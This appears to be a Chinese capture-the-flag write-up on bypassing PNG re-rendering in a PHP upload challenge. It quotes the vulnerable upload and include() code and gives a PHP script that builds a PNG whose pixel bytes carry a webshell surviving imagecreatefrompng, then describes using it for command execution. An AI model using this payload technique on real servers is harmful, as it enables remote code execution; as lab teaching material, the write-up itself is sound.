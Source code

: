 # 知识点
### imagepng
将png图片保存至指定地址<br />[https://www.php.net/manual/en/function.imagepng.php](https://www.php.net/manual/en/function.imagepng.php)
### imagecreatefrompng
创建一块画布，并从 PNG 文件或 URL 地址载入一副图像<br />[https://www.php.net/manual/en/function.imagecreatefrompng.php](https://www.php.net/manual/en/function.imagecreatefrompng.php)
# 思路
```python
<?php
error_reporting(0);
if ($_FILES["file"]["error"] > 0)
{
	$ret = array("code"=>2,"msg"=>$_FILES["file"]["error"]);
}
else
{
    $filename = $_FILES["file"]["name"];
    $filesize = ($_FILES["file"]["size"] / 1024);
    if($filesize>1024){
    	$ret = array("code"=>1,"msg"=>"鏂囦欢瓒呰繃1024KB");
    }else{
    	if($_FILES['file']['type'] == 'image/png'){
            $arr = pathinfo($filename);
            $ext_suffix = $arr['extension'];
            if(in_array($ext_suffix, array("png"))){
                $png = imagecreatefrompng($_FILES["file"]["tmp_name"]);
                if($png==FALSE){
                    $ret = array("code"=>2,"msg"=>"鏂囦欢绫诲瀷涓嶅悎瑙�");
                }else{
                    $dst = 'upload/'.md5($_FILES["file"]["name"]).".png";
                    imagepng($png,$dst);
                    $ret = array("code"=>0,"msg"=>md5($_FILES["file"]["name"]).".png");
                }
            }else{
                $ret = array("code"=>3,"msg"=>"鍙厑璁镐笂浼爌ng鏍煎紡鍥剧墖");
            }
            
    		
    	}else{
    		$ret = array("code"=>2,"msg"=>"鏂囦欢绫诲瀷涓嶅悎瑙�");
    	}
    	
    }

}


echo json_encode($ret);echo json_encode($ret);
```
```python
<?php

$file= $_GET['image'];

$file = strrev($file);
$ext = strrev(substr($file, 0,4));
if($ext==='.png' && file_exists("./upload/".strrev($file))){
	header('Content-Type:image/png');
	include("./upload/".strrev($file));
}else{
	echo "鍥剧墖閿
```
后端代码使用imagecreatefrompng对PNG图片进行了二次渲染，导致我们直接在文件尾插入失效<br />所以，我们使用一个脚本来创建渲染后不会被破环的图片马
```python
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);



$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
?>

```
上传该脚本<br />![image.png](./images/20231018_0000406209.png)<br />抓包进行命令执行<br />![image.png](./images/20231018_0000415755.png)
